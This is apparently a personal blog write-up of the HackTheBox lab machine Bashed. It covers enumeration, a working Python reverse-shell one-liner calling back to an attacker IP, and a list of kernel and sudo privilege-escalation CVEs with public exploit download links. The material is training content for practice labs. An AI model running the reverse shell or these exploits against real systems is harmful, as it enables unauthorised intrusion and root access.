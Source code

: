 ```yaml
---
layout: post
title: "Bashed Writeup - HackTheBox"
category: HackTheBox
---
```

# HTB lab Machine - Bashed

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/10.129.142.43 folder that I have attached to this post.

## Enumeration summary

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site


```

```
/images               (Status: 301) [Size: 315] [--> http://10.129.142.43/images/]

/uploads              (Status: 301) [Size: 316] [--> http://10.129.142.43/uploads/]

/php                  (Status: 301) [Size: 312] [--> http://10.129.142.43/php/]    

/css                  (Status: 301) [Size: 312] [--> http://10.129.142.43/css/]    

/dev                  (Status: 301) [Size: 312] [--> http://10.129.142.43/dev/]    

/js                   (Status: 301) [Size: 311] [--> http://10.129.142.43/js/]     

/fonts                (Status: 301) [Size: 314] [--> http://10.129.142.43/fonts/]  

/server-status        (Status: 403) [Size: 301]    
```

![image-20210506124353915](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210506124353915.png)

![image-20210506124436105](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210506124436105.png)

```
+ /config.php: PHP Config file may contain database IDs and passwords.

```



## Exploitation

Okay we are www-data lol. Lets see how to escalate to user. That turns out to be very easy:

![image-20210506124614780](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210506124614780.png)

We must create a tty reverse shell to do some commands as scriptmanager:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.49",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Note to self, always check if you are not already user/root:

![image-20210506130433853](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210506130433853.png)

Privesc time:

```
[+] Useful software
/bin/nc
/bin/netcat
/usr/bin/wget
/bin/ping
/usr/bin/base64
/usr/bin/python
/usr/bin/python2
/usr/bin/python3
/usr/bin/python2.7
/usr/bin/perl
/usr/bin/php
/usr/bin/sudo

```

```
[+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.2 LTS
Release:	16.04
Codename:	xenial

```

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.16

```

Ran Linux Exploit suggester:

```
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-62-generic} ]
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: probable
   Tags: ubuntu=14.04{kernel:4.4.0-*},[ ubuntu=16.04 ]{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic}
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

```

The first one worked:

![image-20210506135328136](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210506135328136.png)

## Final thoughts

Nice sudo rabithole. 10 poitner on OSCP. Easy indeed.
